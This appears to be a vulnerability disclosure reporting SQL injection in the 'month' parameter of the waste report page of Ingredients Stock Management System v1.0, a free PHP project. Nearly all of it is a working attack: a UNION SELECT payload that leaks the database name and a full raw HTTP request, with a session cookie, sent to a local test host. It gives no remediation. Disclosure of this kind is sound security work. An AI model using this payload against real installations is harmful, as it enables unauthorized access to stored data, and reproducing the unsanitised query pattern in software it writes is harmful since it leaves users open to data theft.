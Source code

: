 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/admin/?page=reports/waste&month=

Vulnerability location: /isms/admin/?page=reports/waste&month=, month

db_name = isms_db;

[+] Payload: /isms/admin/?page=reports/waste&month=2022-07%27%20union%20select%201,2,3,4,5,6,7,database(),9,10--+ // Leak place ---> month

```sql
GET /isms/admin/?page=reports/waste&month=2022-07%27%20union%20select%201,2,3,4,5,6,7,database(),9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/179383807-8d6cbdb2-0ee9-46ac-8cad-fa5e3ec3d107.png)

